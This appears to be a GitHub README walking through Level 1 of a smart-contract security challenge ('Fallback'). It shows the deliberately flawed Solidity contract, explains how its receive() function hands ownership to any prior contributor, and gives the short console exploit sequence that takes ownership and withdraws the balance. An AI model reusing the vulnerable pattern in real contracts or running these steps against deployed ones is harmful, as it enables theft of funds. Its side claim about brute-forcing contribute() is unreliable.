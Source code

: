# Fallback challenge - Level 1
<p align="left"> <img src="https://komarev.com/ghpvc/?username=Level1&label=Repository%20views&color=0e75b6&style=flat" alt="wrappedusername" /> </p>

```yml
This smart contract has a vulnerability, because:
```

- the require statement inside the fallback function receive() is making it an easy target to exploit,  

```Solidity

receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0); // <----- critical vulnerability here!
  owner = msg.sender; 
}
```

## 🆘 The victim contract in detail

```yml
The victim contract imports OpenZeppelin's SafeMath contract here:
```
- There is nothing much going on here, I personally would use a fixed pragma, but that is a much smaller detail,
- I would like to focus on the main purpose of the contract as a whole, a white paper is something smart contract developers should make a habit of creating during the intial build phase. The white paper gives everyone that high level view of the project and the intentions of the smart contract.
- We also have to take into account any other smart contracts or interfaces that this smart contract in question uses within it's sphere of influence.
- As for this smart contract, and probably most others too, there is no white paper so we must make an educated guess about the intentions of the contract from the information that we can find, 
- of coarse this smart contract is intended to be used as an example in a tutorial/challenge, so this explains why there are such obvious and critical vulnerabilities in the smart contract. 

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallback {

  using SafeMath for uint256;
```

- I am not sure why OpenZeppelin's Ownable contract is not used here,
- I recommend using these libraries instead of implementing your own version,
  - here is why: 
    - writing something from scratch, that is already available is a waste of time that could introduce bugs,
    
```yml
I recommend using and modifying available libraries like OpenZepellin's Ownable, 
SafeMath, etc. to conform to the project's specific needs.
```

```Solidity
  mapping(address => uint) public contributions;
  address payable public owner;

  constructor() public {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }
```

- most of the smart contract uses reasonable safety precautions, there are a few things in this section that stand out as vulnerabilities.
  - The if() statement inside the contribute() function leaves the possibility for a brute force attack, an attacker might be able to recursively call this function to satisfy the if() statement to become the owner.
  - The fallback function receive() is the critical vulnerability, the next section will describe the vulnerability in detail.

```Solidity
 function contribute() public payable {
    require(msg.value < 0.001 ether); // <----- makes a brute force attack less likely, but it may still be possible
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) { // <----- possible vulnerability
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0); // <----- critical vulnerability
    owner = msg.sender;
  }
}

```


## ⚠️ The vulnerability in detail

```yml
The vulnerability:
```
- This require statement is the crtitical vulnerability,

```Solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0); // <------ critical vulnerability
  owner = msg.sender; 
}
```

- This vulnerability underscores the importance of best practices, and shows how important it is for the blockchain developer to build the smart contract securely and test thoroughly before deploying to production/mainnet.
- As you can see below in this code snippet, it does not take much to destroy this smart contract.

```JavaScript
/** 
* @notice This fallback function receive() is the main attack target, in order to pass the 
* require statement player must use function contribute() 1 wei will be enough, using the console
* player calls await contract.contribute({value: 1}), then player calls await contract.sendTransaction({value: 1}),
* player can verify ownership with await contract.owner(), player will now be able to withdraw all tokens. 
*/

await contract.contribute({value: 1});
await contract.sendTransaction({value: 1 });
await contract.owner();
await contract.withdraw();

```

## 💥 The attack in detail

```yml
The attack:
```

- the [top level](https://developer.chrome.com/blog/new-in-devtools-62/#await) JavaScript awaits the player will use in the attack 💥,

```JavaScript
await contract.contribute({value: 1});
await contract.sendTransaction({value: 1 });
await contract.owner();
await contract.withdraw();
```
- the contribution to satisfy this require statement,

```Solidity
&& contributions[msg.sender] > 0

```

```JavaScript
await contract.contribute({value: 1});
```

- the value sent in the transaction to satisfy this require statement,

```Solidity
msg.value > 0 
```

```JavaScript
await contract.sendTransaction({value: 1 });
```

- checking to see if it worked,

```JavaScript
await contract.owner();
```

- 💸 withdrawing everything!

```Solidity

  function withdraw() public onlyOwner {
    owner.transfer(address(this).balance);
  }
```

```JavaScript
await contract.withdraw();
```


## 🩺 How can we fix this vulnerablity in the victim contract?

- I would create more robust require statements, inside a seperate named function for receiving tokens designed to work how I prefer,
- I would use all available libraries and best practices that I could.
- I would test all modifications and functions/transactions/events for bugs before deployment to production/mainnet.

```Solidity

```











  
